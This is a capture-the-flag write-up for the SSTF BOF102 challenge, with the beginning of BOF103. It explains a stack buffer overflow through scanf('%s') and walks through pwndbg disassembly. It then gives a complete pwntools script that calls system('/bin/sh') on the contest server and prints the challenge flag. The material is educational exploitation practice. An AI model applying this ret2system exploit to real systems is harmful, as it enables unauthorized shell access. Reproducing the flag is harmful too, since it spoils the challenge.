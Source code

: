 In the bofme function the vulnerability is in the second scanf `scanf("%s", payload);`, but there is no win function an hacky trick would be to call system with /bin/sh, we already have system we only need the /bin/sh string, because we are prompted for 2 input and the first is also used in printf, we know where it lies:

    pwndbg> disass main
    Dump of assembler code for function main:
       0x080485fb <+0>:	push   ebp
       0x080485fc <+1>:	mov    ebp,esp
       0x080485fe <+3>:	push   0x8048730
       0x08048603 <+8>:	call   0x8048430 <system@plt>
       0x08048608 <+13>:	add    esp,0x4
       0x0804860b <+16>:	call   0x804856b <bofme>
       0x08048610 <+21>:	mov    eax,0x0
       0x08048615 <+26>:	leave  
       0x08048616 <+27>:	ret    
    End of assembler dump.

System address: 0x8048430, then we exploit that name where our /bin/sh string will lay won't die at the end of bofme() because is a global value.

    0x80485a7 <bofme+60>    call   printf@plt                     <printf@plt>
            format: 0x80486ef ◂— 'Hello, %s.\n'
            vararg: 0x804a06c (name) ◂— '/bin/sh'

So the solver script is:
```python
from pwn import *

elf = context.binary = ELF('bof102')
ip, port = "bof102.sstf.site", 1337

#io = elf.process()
io = remote(ip, port)

io.sendline("/bin/sh")

bin_sh = p32(0x804a06c)
fill = b"A"*4
system = p32(0x8048430)
pay = b"A"*20 + system + fill + bin_sh

io.sendline(pay)
io.interactive()
```
Flag = `SCTF{574ck_iS_g00d_bu7_d4n9erOu5}`

# BOF103 / BOF104
Tbh timezone was against me so I used autorop for two ez flag, but then I returned on them ...
Let's analyze them..
bof103.c
```c
unsigned long long key;

void useme(unsigned long long a, 
		unsigned long long b)
{
	key = a * b;
}

void bofme() {
	char name[16];
	puts("What's your name?");
	printf("Name > ");
	scanf("%s", name);
```